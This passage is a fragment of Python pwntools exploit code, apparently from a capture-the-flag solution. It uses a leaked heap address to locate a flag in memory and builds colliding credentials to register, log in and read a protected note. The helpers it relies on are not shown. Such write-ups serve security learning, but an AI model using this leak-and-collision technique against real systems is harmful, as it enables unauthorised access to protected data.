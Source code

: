 ```python
    heap_leaked = u64(p.recvn(6) + b"\x00\x00")
    flag_addr = heap_leaked - 336

    # logout
    p.sendlineafter(b"Action: ", str(3).encode())

    user, pw, title = get_collision(clock_time, flag_addr)

    # register
    p.sendlineafter(b"Action: ", str(1).encode())
    p.sendlineafter(b"Username: ", user)
    p.sendlineafter(b"Password: ", pw)

    # login
    p.sendlineafter(b"Action: ", str(2).encode())
    p.sendlineafter(b"Username: ", user)
    p.sendlineafter(b"Password: ", pw)

    # read note
    p.sendlineafter(b"Action: ", str(2).encode())
    p.sendlineafter(b"Title: ", title)

    p.interactive()
```